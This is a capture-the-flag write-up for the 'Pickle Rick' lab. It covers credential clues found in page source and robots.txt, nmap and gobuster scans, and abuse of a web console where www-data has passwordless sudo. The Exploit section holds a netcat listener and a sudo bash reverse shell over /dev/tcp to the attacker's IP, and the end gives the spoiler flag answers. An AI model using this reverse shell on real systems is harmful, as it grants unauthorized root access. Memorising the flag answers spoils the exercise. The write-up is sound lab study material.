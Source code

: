 # Pickle Rick

![main-page.png](images/main-page.png)

<details>
    <summary>Clue in source code:</summary>

    ```html
    <!--
        Note to self, remember username!

        Username: R1ckRul3s
    -->
    ```

</details>

<details>
    <summary>Clue in robots.txt:</summary>

    ```
    Wubbalubbadubdub
    ```

</details>

## Nmap

```bash
nmap -A -sC -T5 10.10.20.211
```

```
Starting Nmap 7.93 ( https://nmap.org ) at 2023-04-17 22:59 WEST
Stats: 0:00:00 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Nmap scan report for 10.10.20.211
Host is up (0.056s latency).

PORT     STATE    SERVICE   VERSION
22/tcp   open     ssh       OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 82c17a3ef1a9c48837803bb3aacc83b0 (RSA)
|   256 958b0f4d98dfe1221294014fb515947d (ECDSA)
|_  256 a0b4f06c0946f55a2fbd3f4441f386d6 (ED25519)

80/tcp   open     http      Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Rick is sup4r cool

254/tcp  filtered unknown

3007/tcp filtered lotusmtap
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Nmap done: 1 IP address (1 host up) scanned in 14.21 seconds
```

## Gobuster

```bash
gobuster dir -u http://10.10.20.211 -w wordlists/dirb/big.txt
```

```
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.20.211
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                wordlists/dirb/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Timeout:                 10s
===============================================================
2023/04/18 00:17:14 Starting gobuster in directory enumeration mode
===============================================================
/.htpasswd            (Status: 403)
/.htaccess            (Status: 403)
/assets               (Status: 301)
/robots.txt           (Status: 200)
/server-status        (Status: 403)
/index.html           (Status: 200)
/login.php            (Status: 200)
```

Success login, redirected to /portal.php wich contains a terminal window.

## Webpage console

```
$ whoami
www-data
$ sudo -l
Matching Defaults entries for www-data on ip-10-10-20-211.eu-west-1.compute.internal:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ip-10-10-20-211.eu-west-1.compute.internal:
    (ALL) NOPASSWD: ALL
```

We can run any command as www-data without a password.

## Exploit

Reference: [https://gtfobins.github.io/gtfobins/bash/](https://gtfobins.github.io/gtfobins/bash/)

Locally:

```bash
nc -l -p 12345
```

Webpage:

```bash
sudo bash -c 'exec bash -i &>/dev/tcp/10.8.105.196/12345 <&1'
```

Success!

```
root@ip-10-10-20-211:/var/www/html# cd /root
cd /root
root@ip-10-10-20-211:~# ls -la 
ls -la
total 32
drwx------  4 root root 4096 Apr 17 23:07 .
drwxr-xr-x 23 root root 4096 Apr 17 22:53 ..
-rw-------  1 root root   11 Apr 17 23:07 .bash_history
-rw-r--r--  1 root root 3106 Oct 22  2015 .bashrc
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
drwx------  2 root root 4096 Feb 10  2019 .ssh
-rw-r--r--  1 root root   29 Feb 10  2019 3rd.txt
drwxr-xr-x  3 root root 4096 Feb 10  2019 snap
```

![root.png](images/root.png)

## Spoiler alert

<details>
    <summary>What is the first ingredient Rick needs?</summary>

    ```
    /var/www/html/
    mr. meeseek hair
    ```

</details>

<details>
    <summary>Whats the second ingredient Rick needs?</summary>

    ```
    /home/rick/
    1 jerry tear
    ```

</details>

<details>
    <summary>Whats the final ingredient Rick needs?</summary>

    ```
    /root/
    3rd ingredients: fleeb juice
    ```

</details>
